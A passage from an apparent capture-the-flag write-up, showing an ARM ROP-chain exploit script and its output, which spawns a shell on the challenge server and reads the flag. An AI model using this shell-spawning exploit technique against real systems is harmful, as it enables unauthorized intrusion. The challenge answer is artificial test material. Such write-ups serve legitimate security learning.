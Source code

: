 ```py
# pop {r0, r1, r3, ip, lr}; pop {r2}; ldr r1, [r0, #4]; bx r1;
write_to_stack(14, reverse_crc32(0x0005ab18)) # pc
write_to_stack(15, reverse_crc32(0x00099020)) # r0
write_to_stack(16, '') # r1
write_to_stack(17, reverse_crc32(0x0006ef8c)) # r3
write_to_stack(18, '') # ip
write_to_stack(19, reverse_crc32(0x0001a194)) # lr
write_to_stack(20, '') # r2

# pop {r0, pc}
write_to_stack(21, reverse_crc32(0x00099014)) # r0
write_to_stack(22, reverse_crc32(0x0006e810)) # pc

# sub r1, r1, r3; bx lr;

# pop {r7, pc}
write_to_stack(23, reverse_crc32(11))
write_to_stack(24, reverse_crc32(0x0004e8a8), more=False)

# svc 0

r.interactive()
```

```sh
λ › python solve.py
[+] Opening connection to 159.65.80.92 on port 31337: Done
[ENTER TO CONTINUE]
[+] Stored 99014 in slot 13
[+] Stored 5ab18 in slot 14
[+] Stored 99020 in slot 15
[+] Stored 0 in slot 16
[+] Stored 6ef8c in slot 17
[+] Stored 0 in slot 18
[+] Stored 1a194 in slot 19
[+] Stored 0 in slot 20
[+] Stored 99014 in slot 21
[+] Stored 6e810 in slot 22
[+] Stored b in slot 23
[+] Stored 4e8a8 in slot 24
Store more? (y/n): $ n
sh: 1: n: not found
$ id
uid=999(ctf) gid=999(ctf) groups=999(ctf)
$ cat /home/ctf/flag
sctf{pUts_0n_sh4d3s_w3r3_1n}
$ 
[*] Closed connection to 159.65.80.92 port 31337
```
<center>`FLAG : sctf{pUts_0n_sh4d3s_w3r3_1n}`</center>

---
